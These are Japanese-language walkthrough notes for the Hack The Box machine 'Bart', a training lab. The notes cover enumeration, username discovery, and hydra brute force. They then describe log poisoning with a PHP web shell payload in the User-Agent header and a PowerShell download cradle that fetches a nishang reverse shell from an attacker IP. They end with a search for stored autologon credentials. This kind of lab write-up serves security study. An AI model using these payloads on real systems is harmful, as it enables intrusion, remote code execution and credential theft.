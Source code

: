 - nmap 
	- 80 http Microsoft IIS httpd 10.0
- gobuster
- curl
	- -vvvを付けて存在しないディレクトリを指定する
	- 画像コンテンツのjpeg画像が200 okで帰ってくる
- ブラウザで存在しないディレクトリを指定してみる
- gobusterに戻って-sオプションを追加して204,301,302,307を指定する
	- forumディレクトリが出てくるのでアクセスする
- hostsファイルにbart.htb forum.bart.htbを追記する
- gobusterでmonitorディレクトリを発見
	- hostsファイルに追記
- 「PHP Server Monitor v3.2.1」で作成されていることがわかる
	- ログイン画面が表示される
	- htmlソースコードに書かれていた名前を入れてみる
	- ユーザー名が分からないので「Forgot your password?」に行き、分かっているユーザー名を総当りで入れていく
	- 正しいユーザー名が入力できたら緑色のボックスが表示されるはず
	- 開発者のユーザー名の可能性が高い。「harvey」で緑のボックスが出る
	- passwordはブルートフォースしてもよいがここでは「potter」で認証した
- ログイン先にもリンクがあるのでクリックしてみると別のログインフォームが表示される
- ユーザー名を「harvey」passwordを「potter」で実行しても認証されない
- hydraでBFを実行してみる
- 誤検知が多いのでBurpをかませてhydraを実行する
![fda88aaa111c49b21b282a570c0b3fa0.png](../../_resources/fda88aaa111c49b21b282a570c0b3fa0.png)   
![a8bc3970f2f895995a9ee13b3cd49b2d.png](../../_resources/a8bc3970f2f895995a9ee13b3cd49b2d.png)   
![81d2655a7d9843326aa56fdd3abfcf0d.png](../../_resources/81d2655a7d9843326aa56fdd3abfcf0d.png)  
![17aed63009978974bfd22cf2c6223385.png](../../_resources/17aed63009978974bfd22cf2c6223385.png)   
![bd8b8f0a12913d3a28ff4f66b02fb8a6.png](../../_resources/bd8b8f0a12913d3a28ff4f66b02fb8a6.png)   
![be54f76187ed56faa06debdd903db328.png](../../_resources/be54f76187ed56faa06debdd903db328.png)

- hydraで使用するwordlistを/usr/share/wordlists/metasploit/common_roots.txtに変更しアドレスを127.0.0.1に変更して実行
- 分かったクレデンシャルで認証する
- chatが表示される
- log.txtに書き込みがされる記述があるのでログポイズニングが利用できそう
- Burpで受信して「User Agent」にPHPコードを配置してみる
```PHP
User Agent: <?php system($_REQUEST['PleaseSubscribe']); ?>
```
- filenameをlog.phpに変更して再度実施。
- 「User Agent」を適当なものに置き換え、「Username」に「&PleaseSubscribe=whomai」を追記する
- nishangを使用してリバースシェルを取得する
- まず最初に「/opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1」をコピーする
- このファイルを編集する。最終行に「Incoke-PowerShellTcp -Reverse -IPAddress -Port」を追記してIPAddressとPortを変更する
- BurpのPleaseSubscribeにpowershellコマンドを入力する
```
Powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/Invoke-PowerShellTcp.ps1')"
```
- URLエンコードを実施しておく
- 実行すればリバースシェルが取れる
- 32bitのPowershellが起動してしまうので64bitに入り直す
```
c:\windows\SysNative\windowsPowerShell\v1.0\ Powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.30/Invoke-PowerShellTcp.ps1')"
```
- 「Get-RegistryAutoLogon」を使ってレジストリに残っている自動ログオン資格情報を検索
- 